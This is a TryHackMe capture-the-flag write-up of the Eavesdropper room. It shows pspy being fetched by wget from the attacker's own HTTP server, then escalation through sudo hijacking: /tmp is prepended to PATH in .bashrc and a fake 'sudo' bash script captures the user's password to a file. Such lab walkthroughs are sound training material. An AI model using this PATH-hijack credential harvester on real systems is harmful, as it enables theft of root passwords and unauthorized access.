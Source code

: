 ```yaml
---
Platform:
  - TryHackMe
Difficulty: Medium
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

In this writeup we are going to solve the Eavesdropper room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/eavesdropper](https://tryhackme.com/room/eavesdropper)

  

Let’s Start 🙌

  

First Start the machine and download the ssh key. After downloading ssh key, login as frank using this SSH key. The command is : `ssh -i <SSH_Key> frank@<TARGET_IP>`

  

![[Eavesdropper/assets/Untitled.png|Untitled.png]]

  

Our task is to escalate our privileges as root and to read the root flag. For that first we try to take a look at the processes that are running in the target machine. For this purpose I am going to use the tool [pspy](https://github.com/DominicBreuker/pspy). You can also use other tools such as [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) for this purpose.

Download the tool to your local machine. We have to transfer this file from our local machine to the target machine because tryhackme rooms don’t have an internet connection. So, we will first download the pspy tool to our local machine. After downloading, create a Python simple HTTP server in the same directory where you downloaded the pspy tool. The command for creating a Python simple HTTP server is: `python -m http.server`. This command will host a simple web server with your current working directory as the root of the web server, which is accessed by your machine's IP address on port `8000`.

  

![[Eavesdropper/assets/Untitled 1.png|Untitled 1.png]]

  

Now you can use the `wget` command to download the pspy tool to the target machine. Since, you are connected to tryhackme via the openvpn, which implies that your target machine can reach your local machine via the openvpn tunnel and vice versa. By this way we can download the pspy tool to the target machine from our local machine.

The command is : `wget http://<tun0-IPaddress>:8000/pspy32`

  

![[Eavesdropper/assets/Untitled 2.png|Untitled 2.png]]

  

Now update the permissions of the pspy tool to executable and run the pspy tool.

  

![[Eavesdropper/assets/Untitled 3.png|Untitled 3.png]]

  

Now take a look at the output of the pspy tool, did you notice anything fishy!!!.

  

![[Eavesdropper/assets/Untitled 4.png|Untitled 4.png]]

  

You can see that a process with the process ID `1844` executes the command `sudo cat /etc/shadow`. And you can also see that this process is repeating again and again. Here the user `frank` uses the `sudo` command to run this, so he must have to enter the root password to run this command. We can capture this process to find the root users password. How are we going to capture this password???

We know that the `sudo` command is located in the `/bin` folder. Take a look at the `PATH` environment variable by using the command : `echo $PATH`.

  

![[Eavesdropper/assets/Untitled 5.png|Untitled 5.png]]

  

For every command or tool we use in the Linux terminal, the Linux system first checks for that particular command or tool file in the order that is mentioned in the `PATH` variable i.e, if we use the command `sudo`, the Linux system first checks the `/usr/local/sbin` directory for the file `sudo`. If it’s not found then it will search in the next directory `/usr/local/bin`. Similarly it will check all the directories for the file `sudo` in the order mentioned in the `PATH` variable until it finds the file.

  

We can take advantage of this characteristic of the Linux system to seek the root users password. This is known as [`Sudo Hijacking`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking). Now we will a variable named `PATH` at the beginning of the `.bashrc` file that is located in the `/home/frank` directory with the following path: `/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`.

  

![[Eavesdropper/assets/Untitled 6.png|Untitled 6.png]]

  

By doing this we make the Linux system to first look into the `/tmp` directory for the `sudo` file. Now we can create a fake `sudo` executable file in the `/tmp` directory, which will steal the credentials. By this way when the user `frank` tries to execute the `sudo` command, instead of the actual `sudo` file that is located in the `/bin` directory, the `sudo` file located in the `/tmp` that we created will be executed. For this I have used the following bash script for capturing the password.

  

```
#! /bin/bash

read -sp "[sudo] password for frank: " password

echo $password > /home/frank/password.txt
```

  

![[Eavesdropper/assets/Untitled 7.png|Untitled 7.png]]

  

This script is saved in the name `sudo` in the `/tmp` directory. After saving the file, we have to escalate the files permission to executable by using the following command : `chmod +x sudo`

  

After completing these steps successfully, if you check the `/home/frank` directory you can find the `password.txt` file. If you read the file using the `cat` command you will find the flag.

  

![[Eavesdropper/assets/Untitled 8.png|Untitled 8.png]]

  

Now you got the password for escalating your privileges as the root user. Thus, escalate your privileges as root user using the found password and check the `/root` directory, you can find the flag!!!!

  

![[Eavesdropper/assets/Untitled 9.png|Untitled 9.png]]

  

Thank You!!!!